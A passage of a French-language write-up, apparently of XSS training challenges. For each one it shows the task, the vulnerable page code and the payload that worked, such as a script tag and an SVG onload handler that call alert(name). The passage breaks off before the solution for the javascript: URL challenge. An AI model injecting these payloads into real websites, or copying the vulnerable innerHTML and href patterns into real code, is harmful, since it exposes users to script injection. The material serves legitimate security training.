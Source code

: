 **Solution trouvée :**

```html
<script>alert(name)</script>
```

**Explication de l'injection :**\
La fonction Javascript `alert()` permet de déclencher une alerte sur notre navigateur. En ajoutant une variable entre les parenthèses, l'alerte nous retournera la valeur de cette variable.

---

### `InnerHTML`

**Consigne :**\
`<script></script>`script tags do not work when added via innerHTML, can you find another way to trigger an XSS ?

> **Goal : `alert(name)`**

**Code présent sur la page :**

```html
<h1>Hello <span id="name"></span></h1>
<script>

const name = $name
document.getElementById("name").innerHTML = name

</script>
```

**Solution trouvée :**

```html
<svg onload='alert(name)'>
```

**Explication de l'injection :**\
La fonction `onload()` permet à l'attaquant d'exécuter une attaque string après le chargement de la fenêtre.

---

### `JS_urls`

**Consigne :**
Can you spot the XSS here ?

> **Goal: `alert(name)` when the victim click the link**

**Code présent sur la page :**

```html
<a href="$name">Visit my profile</a>
```

**Solution trouvée :**
